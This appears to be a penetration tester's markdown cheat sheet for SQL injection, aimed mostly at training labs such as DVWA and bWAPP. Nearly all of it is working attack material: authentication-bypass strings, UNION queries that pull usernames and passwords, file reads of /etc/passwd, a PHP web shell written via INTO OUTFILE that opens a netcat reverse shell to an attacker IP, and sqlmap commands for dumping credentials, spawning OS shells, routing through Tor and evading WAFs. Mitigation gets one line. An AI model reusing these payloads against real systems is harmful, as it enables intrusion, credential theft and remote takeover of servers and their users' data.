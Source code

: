 # SQL Injection

## Types
- MySQL
  - Error Based
    - ```'``` & ```"``` & ```\``` & ```)``` & tilda
  - Blind 
    - Boolean
      - True: ```id=1" and 1=1--```
      - False: ```id=1" and 1=2--```
      - Other
        - ```id=1' and 1=1--+```
        - ```id=1' and 1=1#```  
    - Time Based
      - ```id=1' and sleep(5)--```
      - ```id=';waitfor delay '0:0:5'--```

## Exploitation
- Login Bypass
  - Username : ```administrator'--```

- Where cluase : ```' OR 1=1--``` 

- UNION
  - ```' UNION SELECT NULL--``` , ```' UNION SELECT NULL,NULL--``` , ...
    - determining the number of columns  
  - ```' UNION SELECT 'abcdef',NULL,NULL--``` , ```' UNION SELECT NULL,'abcdef',NULL--``` , ...
    - finding a column containing text
  - ```' UNION SELECT username,password FROM users--```
    - retrive data from other tables
  - ```' UNION SELECT NULL,username||'~'||password FROM users--```
    - retrive multiple values in a single columns
  - querying the database type and version
    - Oracle : ```' UNION SELECT BANNER,NULL FROM v$version--```
    - MYSQL & MSSQL : ```' UNION SELECT @@version, NULL#```  (must use Burp because of #)
  - listing the database contents
    - non-Oracle
      - ```' UNION SELECT table_name, NULL FROM information_schema.tables--```
      - ```' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--```
      - ```' UNION SELECT username, password FROM users```
    - Oracle
      - ```' UNION SELECT table_name,NULL FROM all_tables--```
      - ```' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name='USERS'--```
      - ```' UNION SELECT USERNAME, PASSWORD FROM+USERS--```

## Payloads
```
a'or'1'='1
a' or '1'='1
a' or '1'='1'--
a' or '1'='1'#
a' or '1'='1'%23
a' or 1=1%23
1 or 1=1
1 or 1=1 limit 2,1
a'%09or%09'1'='1
a'/**/or/**/'1'='1
2 or 1=1
2%0Aor 1=1
` desc %23
IF(0,name,age)
' or 1=1#
' or 1=1--
' or 1=1 LIMIT 1 #
2 union all select * from users
```

## Tips
- True statement: ```aNd 1=1``` & ```aNd 21=21``` & ```orDeR bY 1```
- False statement: ```dNd 0=1``` & ```anD 9=2``` & ```ordEr bY 1000000000000```
- Space: ```+``` & ```/**/``` & ```%20```
- Comment: ```/*``` & ```//``` & ```;//``` & ```#``` & ```%23```

## Exploit
- Login
  - username: ```admin'#``` 
  - password: ```1' or 1=1#``` 

- Data Extracting 
  - Seleting database version, Database, user
    - ```?page=user-info.php&username=z' union select 1,database(),user(),version(),5%23``` 
  - Database tables 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables``` 
    - ```... union select 1,table_name,null,null,5 from information_schema.tables where table_schema='owasp10'``` 
  - Table Columns
    - ```... union select 1,column_name,null,null,5 from information_schema.columns where table_name='accounts'``` 
  - Selecting data from table 
    - ```... union select 1,username,password,is_admin,5 from accounts``` 
  - Reading files
    - ```... union select null,load_file('/etc/passwd'),null,null,null``` 
  - Writing files
    - ```UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*``` 

- Shell upload 
  - Payload 
    - ```?page=user-info.php&username=z' union select '<?passthru("nc -e /bin/sh 10.20.14.208 8080");?>',null into outfile '/tmp/reverse.php'``` 
  - Listen on attacker machin
    - ```nc -vv -l -p 8080```
  - Run backdoor
    - ```10.20.14.211/dvwa/vulnerabilities/fi/?page=../../../../../tmp/reverse.php```

## Mitigation
- Use parametrized statements, separate data from sql code


## SQLMAP
- Usage
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title```
    - Define "title" as the test parameter (input string was passed as value of title) 
  - ``` sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title --dbs```
    - Get a list of databases present on the database server 
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP --tables``` 
    - Get a list of tables for database bWAPP
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users --columns``` 
    - Get the list of columns in the users table of bWAPP database
  - ```sqlmap -u "http://192.210.141.3/sqli_1.php?title=hello&action=search" --cookie "PHPSESSID=ipcund5314149g188pfhb3pff1; security_level=0" -p title -D bWAPP -T users -C admin,password,email --dump``` 
    - Dump password and email for admin from the users table. Press 'n' twice when prompted

- Burp & SQLMAP
  - Intercept request in Burp, Right-click on it and choose "Copy to file"
  - ```sqlmap -r request -p title```

- Switches
  - Tor
    - ```--tor```
  - Shell
    - ```sqlmap -u "..." --sql-shell```
    - ```sqlmap -u "..." --os-shell```
  - WAF Bypass 
    - ```--tamper=space2dash, hex2char --dbs```
    - Path: /usr/share/sqlmap/tamper 
